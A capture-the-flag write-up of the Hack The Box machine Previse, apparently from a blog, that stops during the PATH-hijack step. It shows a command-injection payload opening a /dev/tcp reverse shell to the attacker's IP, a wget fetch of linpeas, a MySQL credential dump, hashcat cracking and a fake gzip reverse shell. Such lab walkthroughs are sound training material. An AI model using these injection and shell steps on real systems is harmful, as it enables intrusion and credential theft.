








---
search:
  exclude: true
---
# Previse Writeup

## Introduction :

Previse is an easy Linux box released back in August 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/4 ] [~/HTB]
    → sudo vim /etc/hosts
    [sudo] password for nothing:
    
    [ 10.66.66.2/32 ] [ /dev/pts/4 ] [~/HTB]
    → cat /etc/hosts | tail -n1
    10.129.111.192 previse.htb
    
    [ 10.66.66.2/32 ] [ /dev/pts/4 ] [~/HTB]
    → nmap -sCV previse.htb
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-29 21:49 CEST
    Nmap scan report for previse.htb (10.129.111.192)
    Host is up (0.037s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
    |   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
    |_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    | http-title: Previse Login
    |_Requested resource was login.php
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it: 

    
    
    [ 10.66.66.2/32 ] [ /dev/pts/4 ] [~/HTB]
    → gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://previse.htb/ -x php,txt,html,css,js,pdf
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://previse.htb/
    [+] Method:                  GET
    [+] Threads:                 50
    [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              txt,html,css,js,pdf,php
    [+] Timeout:                 10s
    ===============================================================
    2022/05/01 15:09:49 Starting gobuster in directory enumeration mode
    ===============================================================
    /files.php            (Status: 302) [Size: 4914] [--> login.php]
    /header.php           (Status: 200) [Size: 980]
    /nav.php              (Status: 200) [Size: 1248]
    /login.php            (Status: 200) [Size: 2224]
    /download.php         (Status: 302) [Size: 0] [--> login.php]
    /footer.php           (Status: 200) [Size: 217]
    /index.php            (Status: 302) [Size: 2801] [--> login.php]
    /css                  (Status: 301) [Size: 308] [--> http://previse.htb/css/]
    /status.php           (Status: 302) [Size: 2966] [--> login.php]
    /js                   (Status: 301) [Size: 307] [--> http://previse.htb/js/]
    /logout.php           (Status: 302) [Size: 0] [--> login.php]
    /accounts.php         (Status: 302) [Size: 3994] [--> login.php]
    /config.php           (Status: 200) [Size: 0]
    /logs.php             (Status: 302) [Size: 0] [--> login.php]
    
    

Now let's visit **http://previse.htb/accounts.php** and intercept it with burpsuite:

 

Now here we see something strange, the response we get is a 302 redirection, but the page it is supposed NOT to show gets displayed anyway:

So instead let's just intercept the request, and and also intercept the response to this request:

  

Then once you click forward, you can create a user:

Then just login:

Then we can download the website files:

Here we see that we can download a backup of the website, but also upload files:

So first let's downlaod the website backup:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/6 ] [~/HTB/Previse]
    → mv ~/Downloads/siteBackup.zip .
    
    [ 10.66.66.2/32 ] [ /dev/pts/6 ] [~/HTB/Previse]
    → mkdir www
    
    [ 10.66.66.2/32 ] [ /dev/pts/6 ] [~/HTB/Previse]
    → mv siteBackup.zip www
    
    [ 10.66.66.2/32 ] [ /dev/pts/6 ] [~/HTB/Previse]
    → cd www
    
    [ 10.66.66.2/32 ] [ /dev/pts/6 ] [HTB/Previse/www]
    → unzip siteBackup.zip
    Archive:  siteBackup.zip
      inflating: accounts.php
      inflating: config.php
      inflating: download.php
      inflating: file_logs.php
      inflating: files.php
      inflating: footer.php
      inflating: header.php
      inflating: index.php
      inflating: login.php
      inflating: logout.php
      inflating: logs.php
      inflating: nav.php
      inflating: status.php
    
    

Now let's look at those files to see if there is any system-side command that can be ran::
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/6 ] [HTB/Previse/www]
    → grep -oP 'exec.*' *
    logs.php:exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
    
    

And here we see that the logs.php file has a line which runs a python script (log_process.py) that takes the **delim** parameter value as arguement. So let's intercept the POST request to that page:

 

Here we see that the webpage took approximately 0.5 second to load. Now let's try to see if we have command execution by running the sleep command:

And here we see that we managed to execute a system command, because we manmaged to make it wait one additional second more. So let's try to get a reverse bash shell:
    
    
    delim=comma ; bash -c 'bash -i >& /dev/tcp/10.10.14.68/9001 0>&1'
    
    

CTRL+U to url encode it:
    
    
    delim=comma ; bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.68/9001+0>%261'
    
    

Then send it:

And we have a reverse shell as www-data! Now let's upgrade our reverse shell to a fully interactive TTY:
    
    
    [ 10.10.14.68/23 ] [ /dev/pts/22 ] [~]
    → nc -lvnp 9001
    Connection from 10.129.95.185:59414
    bash: cannot set terminal process group (1568): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@previse:/var/www/html$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@previse:/var/www/html$ which python python3 curl wget
    which python python3 curl wget
    /usr/bin/python
    /usr/bin/python3
    /usr/bin/curl
    /usr/bin/wget
    www-data@previse:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@previse:/var/www/html$ ^Z
    [1]  + 1698749 suspended  nc -lvnp 9001
    
    [ 10.10.14.68/23 ] [ /dev/pts/22 ] [~]
    → stty raw -echo ; fg
    [1]  + 1698749 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    www-data@previse:/var/www/html$ export SHELL=bash
    www-data@previse:/var/www/html$ stty rows 50 cols 200
    www-data@previse:/var/www/html$ reset
    
    

Now that we have a fully interactive TTY let's enumerate the host using linpeas.sh:
    
    
    [term1]
    [ 10.10.14.68/23 ] [ /dev/pts/6 ] [~/HTB/Previse]
    → cp ../Cap/linpeas.sh .
    
    [ 10.10.14.68/23 ] [ /dev/pts/6 ] [~/HTB/Previse]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.129.95.185 - - [02/May/2022 13:03:29] "GET /linpeas.sh HTTP/1.1" 200 -
    
    [term2]
    www-data@previse:/var/www/html$ wget http://10.10.14.68:9090/linpeas.sh -O /tmp/peas.sh
    --2022-05-02 11:03:22--  http://10.10.14.68:9090/linpeas.sh
    Connecting to 10.10.14.68:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 776167 (758K) [application/x-sh]
    Saving to: '/tmp/peas.sh'
    
    /tmp/peas.sh                                      100%[=============================================================================================================>] 757.98K  1.41MB/s    in 0.5s
    
    2022-05-02 11:03:23 (1.41 MB/s) - '/tmp/peas.sh' saved [776167/776167]
    
    www-data@previse:/var/www/html$ chmod +x /tmp/peas.sh
    www-data@previse:/var/www/html$ /tmp/peas.sh
    
    

` 

Looking at linpeas.sh's output we see that there is a mysql database on the server:

And when we look at the config.php file we see the mysql password:
    
    
    www-data@previse:/var/www/html$ ls -lash
    total 188K
    4.0K drwxr-xr-x 4 www-data www-data 4.0K Jul 26  2021 .
    4.0K drwxr-xr-x 3 root     root     4.0K Jul 26  2021 ..
    8.0K -rw-r--r-- 1 www-data www-data 5.6K Jun 12  2021 accounts.php
     16K -rwxrwxr-x 1 www-data www-data  16K Jun  3  2021 android-chrome-192x192.png
     52K -rwxrwxr-x 1 www-data www-data  50K Jun  3  2021 android-chrome-512x512.png
     16K -rwxrwxr-x 1 www-data www-data  14K Jun  3  2021 apple-touch-icon.png
    4.0K -rw-r--r-- 1 www-data www-data  208 Jun 12  2021 config.php
    4.0K drwxr-xr-x 2 www-data www-data 4.0K Jul 26  2021 css
    4.0K -rw-r--r-- 1 www-data www-data 1.6K Jun  9  2021 download.php
    4.0K -rwxrwxr-x 1 www-data www-data  724 Jun  3  2021 favicon-16x16.png
    4.0K -rwxrwxr-x 1 www-data www-data 1.7K Jun  3  2021 favicon-32x32.png
     16K -rwxrwxr-x 1 www-data www-data  16K Jun  3  2021 favicon.ico
    4.0K -rw-r--r-- 1 www-data www-data 1.2K Jun 12  2021 file_logs.php
    8.0K -rw-r--r-- 1 www-data www-data 6.0K Jun  9  2021 files.php
    4.0K -rw-r--r-- 1 www-data www-data  217 Jun  3  2021 footer.php
    4.0K -rw-r--r-- 1 www-data www-data 1012 Jun  6  2021 header.php
    4.0K -rw-r--r-- 1 www-data www-data  551 Jun  6  2021 index.php
    4.0K drwxr-xr-x 2 www-data www-data 4.0K Jul 26  2021 js
    4.0K -rw-r--r-- 1 www-data www-data 2.9K Jun 12  2021 login.php
    4.0K -rw-r--r-- 1 www-data www-data  190 Jun  8  2021 logout.php
    4.0K -rw-r--r-- 1 www-data www-data 1.2K Jun  9  2021 logs.php
    4.0K -rw-r--r-- 1 www-data www-data 1.3K Jun  5  2021 nav.php
    4.0K -rwxrwxr-x 1 www-data www-data  263 Jun  3  2021 site.webmanifest
    4.0K -rw-r--r-- 1 www-data www-data 1.9K Jun  9  2021 status.php
    www-data@previse:/var/www/html$ cat config.php
    <****?php
    
    function connectDB(){
        $host = 'localhost';
        $user = 'root';
        $passwd = 'mySQL_p@ssw0rd!:)';
        $db = 'previse';
        $mycon = new mysqli($host, $user, $passwd, $db);
        return $mycon;
    }
    
    ?****>

And we have the mysql credentials! **root:mySQL_p@ssw0rd!:)**
    
    
    www-data@previse:/var/www/html$ mysql -u root -p
    Enter password:
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 19
    Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)
    
    Copyright (c) 2000, 2021, Oracle and/or its affiliates.
    
    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    mysql> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | previse            |
    | sys                |
    +--------------------+
    5 rows in set (0.01 sec)
    
    

Let's take a look at the previse database:
    
    
    mysql> use previse;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Database changed
    mysql> show tables;
    +-------------------+
    | Tables_in_previse |
    +-------------------+
    | accounts          |
    | files             |
    +-------------------+
    2 rows in set (0.00 sec)
    
    mysql> describe accounts;
    +------------+--------------+------+-----+-------------------+----------------+
    | Field      | Type         | Null | Key | Default           | Extra          |
    +------------+--------------+------+-----+-------------------+----------------+
    | id         | int(11)      | NO   | PRI | NULL              | auto_increment |
    | username   | varchar(50)  | NO   | UNI | NULL              |                |
    | password   | varchar(255) | NO   |     | NULL              |                |
    | created_at | datetime     | YES  |     | CURRENT_TIMESTAMP |                |
    +------------+--------------+------+-----+-------------------+----------------+
    4 rows in set (0.00 sec)
    
    mysql> select * from accounts;
    +----+----------+------------------------------------+---------------------+
    | id | username | password                           | created_at          |
    +----+----------+------------------------------------+---------------------+
    |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | nihilist  | $1$🧂llol$2LVHOe2s.o1uq/rzC1K1A0 | 2022-05-02 10:27:41 |
    +----+----------+------------------------------------+---------------------+
    
    

Now here we see that the password field has a weird character in the middle, so to make sure we transfer it correctly to our machine let's use base64:
    
    
    [term1]
    mysql> select TO_BASE64(password) from accounts where id=1;
    +--------------------------------------------------+
    | TO_BASE64(password)                              |
    +--------------------------------------------------+
    | JDEk8J+ngmxsb2wkRFFwbWR2bmI3RWV1TzZVYXFSSXRmLg== |
    +--------------------------------------------------+
    1 row in set (0.00 sec)
    
    [term2]
    [ 10.10.14.68/23 ] [ /dev/pts/23 ] [~/HTB/Previse]
    → vim pass.b64
    
    [ 10.10.14.68/23 ] [ /dev/pts/23 ] [~/HTB/Previse]
    → cat pass.b64
    JDEk8J+ngmxsb2wkRFFwbWR2bmI3RWV1TzZVYXFSSXRmLg==
    
    [ 10.10.14.68/23 ] [ /dev/pts/23 ] [~/HTB/Previse]
    → cat pass.b64 | base64 -d > pass.hash
    

Now let's use hashcat to crack the hash using the rockyou.txt wordlist:
    
    
    [ 10.10.14.68/23 ] [ /dev/pts/23 ] [~/HTB/Previse]
    → hashcat -m 500 -a 0 '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' /usr/share/seclists/rockyou.txt
    hashcat (v6.2.5) starting
    
    * Device #1: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    * Device #2: WARNING! Kernel exec timeout is not disabled.
                 This may cause "CL_OUT_OF_RESOURCES" or related errors.
                 To disable the timeout, see: https://hashcat.net/q/timeoutpatch
    CUDA API (CUDA 11.6)
    ====================
    * Device #1: NVIDIA GeForce RTX 3070 Ti, 4258/7979 MB, 48MCU
    
    OpenCL API (OpenCL 3.0 CUDA 11.6.127) - Platform #1 [NVIDIA Corporation]
    ========================================================================
    * Device #2: NVIDIA GeForce RTX 3070 Ti, skipped
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    
    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    
    Optimizers applied:
    * Zero-Byte
    * Single-Hash
    * Single-Salt
    
    ATTENTION! Pure (unoptimized) backend kernels selected.
    Pure kernels can crack longer passwords, but drastically reduce performance.
    If you want to switch to optimized kernels, append -O to your commandline.
    See the above message to find out about the exact limits.
    
    Watchdog: Temperature abort trigger set to 90c
    
    Host memory required for this attack: 1356 MB
    
    Dictionary cache hit:
    * Filename..: /usr/share/seclists/rockyou.txt
    * Passwords.: 14344384
    * Bytes.....: 139921497
    * Keyspace..: 14344384
    
    Cracking performance lower than expected?
    
    * Append -O to the commandline.
      This lowers the maximum supported password/salt length (usually down to 32).
    
    * Append -w 3 to the commandline.
      This can cause your screen to lag.
    
    * Append -S to the commandline.
      This has a drastic speed impact but can be better for specific attacks.
      Typical scenarios are a small wordlist but a large ruleset.
    
    * Update your backend API runtime / driver the right way:
      https://hashcat.net/faq/wrongdriver
    
    * Create more work items to make use of your parallelization power:
      https://hashcat.net/faq/morework
    
    **$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!**
    
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
    Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
    Time.Started.....: Mon May  2 13:22:23 2022 (10 secs)
    Time.Estimated...: Mon May  2 13:22:33 2022 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:   780.8 kH/s (11.24ms) @ Accel:16 Loops:125 Thr:256 Vec:1
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 7471104/14344384 (52.08%)
    Rejected.........: 0/7471104 (0.00%)
    Restore.Point....: 7274496/14344384 (50.71%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
    Candidate.Engine.: Device Generator
    Candidates.#1....: ivanisaac -> iarmy
    Hardware.Mon.#1..: Temp: 53c Fan: 64% Util: 75% Core:1950MHz Mem:9501MHz Bus:16
    
    Started: Mon May  2 13:22:23 2022
    Stopped: Mon May  2 13:22:34 2022
    
    

And we cracked the hash! now let's try to ssh in as the user m4lwhere using that password:
    
    
    [ 10.10.14.68/23 ] [ /dev/pts/23 ] [~/HTB/Previse]
    → ssh m4lwhere@previse.htb
    The authenticity of host 'previse.htb (10.129.95.185)' can't be established.
    ED25519 key fingerprint is SHA256:BF5tg2bhcRrrCuaeVQXikjd8BCPxgLsnnwHlaBo3dPs.
    This key is not known by any other names
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'previse.htb' (ED25519) to the list of known hosts.
    m4lwhere@previse.htb's password:
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Mon May  2 11:24:33 UTC 2022
    
      System load:  0.0               Processes:           177
      Usage of /:   54.7% of 4.85GB   Users logged in:     0
      Memory usage: 47%               IP address for eth0: 10.129.95.185
      Swap usage:   0%
    
    
    0 updates can be applied immediately.
    
    
    Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
    m4lwhere@previse:~$ id
    uid=1000(m4lwhere) gid=1000(m4lwhere) groups=1000(m4lwhere)
    m4lwhere@previse:~$ cat user.txt
    23XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to login as the user m4lwhere, and we got the user flag.

## **Part 3 : Getting Root Access**

Now in order to get to the root user let's enumerate the box with linpeas.sh, this time as the m4lwhere user: 
    
    
    m4lwhere@previse:~$ wget http://10.10.14.68:9090/linpeas.sh -O /tmp/peas.sh
    --2022-05-02 11:27:21--  http://10.10.14.68:9090/linpeas.sh
    Connecting to 10.10.14.68:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 776167 (758K) [application/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                              100%[===================================================================================>] 757.98K  1.99MB/s    in 0.4s
    
    2022-05-02 11:27:22 (1.99 MB/s) - ‘/tmp/peas.sh’ saved [776167/776167]
    
    m4lwhere@previse:~$ chmod +x /tmp/peas.sh
    m4lwhere@previse:~$ /tmp/peas.sh
    
    

Looking at the output we see the following:

And when we run sudo -l we see that our current m4lwhere user can run this script as root:
    
    
    m4lwhere@previse:~$ sudo -l
    [sudo] password for m4lwhere:
    User m4lwhere may run the following commands on previse:
        (root) /opt/scripts/access_backup.sh
    
    

So let's see what commands are being ran by that script:
    
    
    m4lwhere@previse:~$ cat  /opt/scripts/access_backup.sh
    #!/bin/bash
    
    # We always make sure to store logs, we take security SERIOUSLY here
    
    # I know I shouldnt run this as root but I cant figure it out programmatically on my account
    # This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time
    
    gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
    gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
    
    

So in this script the gzip command is not being run with the absolute path. So let's create a new gzip bash script:
    
    
    m4lwhere@previse:~$ vim gzip
    
    m4lwhere@previse:~$ cat gzip
    #!/bin/sh
    bash -c 'bash -i >& /dev/tcp/10.10.14.68/9002 0>&1'
    
    m4lwhere@previse:~$ chmod +x gzip
    m4lwhere@previse:~$ which gzip
    /bin/gzip
    m4lwhere@previse:~$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
    
    

Now we want our new gzip file to be ran instead of the default /bin/gzip binary, so let's add the current working directory into the PATH variable:
    
    
    m4lwhere@previse:~$ export PATH=.:$PATH
    m4lwhere@previse:~$ echo $PATH
